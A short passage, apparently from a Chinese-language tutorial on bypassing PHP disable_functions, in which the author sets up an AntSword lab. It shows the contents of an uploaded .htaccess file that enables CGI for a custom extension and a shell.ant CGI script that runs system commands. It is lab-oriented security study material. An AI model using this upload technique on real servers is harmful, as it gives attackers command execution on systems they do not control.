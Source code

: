 #### 如何利用

由于环境搭建困难,使用蚁剑的[docker](https://github.com/AntSwordProject/AntSword-Labs)

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002112-79b04982-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002112-79b04982-fc52-1.png)

在web目录下上传`.htaccess`文件

```
Options +ExecCGI
AddHandler cgi-script .ant
```

上传shell.ant

```
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```

由于目标是liunx系统,linux中CGI比较严格。这里也需要去liunx系统创建文件上传,如果使用windows创建文件并上传是无法解析的。
